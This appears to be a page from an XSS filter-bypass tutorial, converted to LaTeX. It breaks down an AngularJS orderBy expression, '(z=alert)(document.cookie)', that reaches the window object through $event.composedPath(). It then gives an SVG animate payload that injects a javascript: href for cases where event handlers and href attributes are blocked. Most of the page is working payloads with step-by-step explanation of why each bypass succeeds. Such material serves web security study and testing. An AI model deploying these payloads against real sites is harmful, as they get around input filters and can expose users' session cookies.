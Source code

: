\documentclass{article}
\begin{document}
\begin{itemize}
\begin{lstlisting}[frame=single]
// But this bypasses:
orderBy:'(z=alert)(1)'     // WORKS - no explicit window reference
\end{lstlisting}

\subsection*{Execution Flow Analysis}

\textbf{Step 1: Event Path Array}
\begin{lstlisting}[frame=single]
$event.composedPath() = [input, body, html, document, window]
\end{lstlisting}

\textbf{Step 2: orderBy Processing}
\begin{itemize}
    \item \texttt{orderBy} iterates through each element in path
    \item When it reaches \textbf{window object} (last element):
    \item \texttt{orderBy} evaluates \texttt{'(z=alert)(document.cookie)'} in window context
\end{itemize}

\textbf{Step 3: Code Execution}
\begin{lstlisting}[frame=single]
(z=alert)(document.cookie)
// Breakdown:
z = alert;           // alert is window.alert (implicit)
z(document.cookie);  // Executes in window scope
\end{lstlisting}

\rule{15cm}{0.4pt}

\section*{What if event handlers and href attributes blocked}

\textbf{\underline{Try SVG Animation XSS Payload}}

\subsection*{Payload Structure}
\begin{lstlisting}[frame=single]
<svg>
  <a>
    <animate attributeName=href values=javascript:alert(1) />
    <text x=20 y=20>Click me</text>
  </a>
</svg>
\end{lstlisting}

\subsection*{Component Breakdown}


\end{itemize}
\end{document}
